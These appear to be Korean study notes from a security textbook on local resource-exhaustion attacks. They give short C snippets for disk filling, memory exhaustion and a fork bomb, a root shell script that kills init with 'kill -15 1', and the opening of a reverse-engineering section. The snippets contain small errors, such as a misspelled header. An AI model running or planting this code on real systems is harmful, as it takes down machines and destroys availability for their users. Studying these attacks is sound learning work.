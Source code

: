 - 가용 디스크 자원 고갈 공격

```c
#include <uinstd.h>
#include <sys/file.h>
void main() {
  int fd;
  char buf[1000];
  fd = creat("/root/temfile", 0777);
  while(1) write(fd, buf, sizeof(buf));
}
```

- 가용 메모리 자원 고갈 공격
  - 디스크 고갈 공격보다 시스템 자원을 더 많이 차지하여, 터미널 창 하나만 띄우는 데도 몇 분을 소모하게 만듬
    - *왜 메모리가 소비되면 터미널 창 띄우는데에 몇 분을 소모하게 만드는가?(스왑 메모리?)*

```c
#include <stdio.h>
void main() {
  char *m;
  while(1)
    m = malloc(1000);
}
```

- 가용 프로세스 자원 고갈 공격
  - `fork()` 라는 프로세스 할당 함수만 무한대로 씀
  - 당장 시스템 자원을 많이 차지하지는 않지만, 가용 프로세스가 꽉 차면 골치아픔
    - 운영체제를 다시 설치해야할 수도 있음

```c
#include <unistd.h>
void main() {
  while(1)
    fork();
  return 0;
}
```

- 프로세스 죽이기 공격
  - 공격자가 루트 권한을 획득한 상태에서, 스크립트를 통해 사용중인 프로세스 죽이는 방법

```c
#!/bin/sh
sync
kill -15 1
```

## 17.6 리버스 엔지니어링

### 기본 개념

- 정의
  - 장치나 시스템의 구조를 분석하여 원리를 발견하는 과정(역공학)
